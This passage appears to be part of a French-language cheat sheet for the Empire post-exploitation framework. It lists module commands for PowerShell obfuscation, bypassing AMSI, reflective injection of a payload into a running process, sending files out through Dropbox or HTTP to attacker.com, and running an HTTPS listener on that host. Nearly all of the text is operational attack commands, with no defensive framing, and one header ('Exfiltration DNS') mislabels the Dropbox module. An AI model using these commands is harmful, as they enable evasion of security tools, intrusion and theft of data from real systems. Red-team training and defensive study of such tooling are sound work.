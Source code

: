 ### Obfuscation PowerShell
```python
# Module obfuscation
usemodule code_execution/invoke_obfuscation
set ScriptBlock "Get-Process"
set ObfuscationType Token
execute
```

### Bypass AMSI
```python
usemodule management/invoke_script
set ScriptPath /path/to/amsi_bypass.ps1
execute
```

### Process Injection
```python
usemodule code_execution/invoke_reflectivepeinjection
set PEPath /path/to/payload.exe
set ProcessID 1234
execute
```

## 📊 Exfiltration de Données

### Exfiltration DNS
```python
usemodule exfiltration/exfil_dropbox
set LocalFile sensitive_data.txt
set DropboxAccessToken [TOKEN]
execute
```

### Exfiltration web
```python
usemodule exfiltration/exfil_via_http
set LocalFile data.zip
set URL https://attacker.com/upload
execute
```

## 🔄 Automatisation et Scripts

### Script automation
```python
# Chargement script personnalisé
resource /path/to/empire_script.rc

# Contenu exemple script
uselistener https
set Host https://attacker.com
execute
agents
```
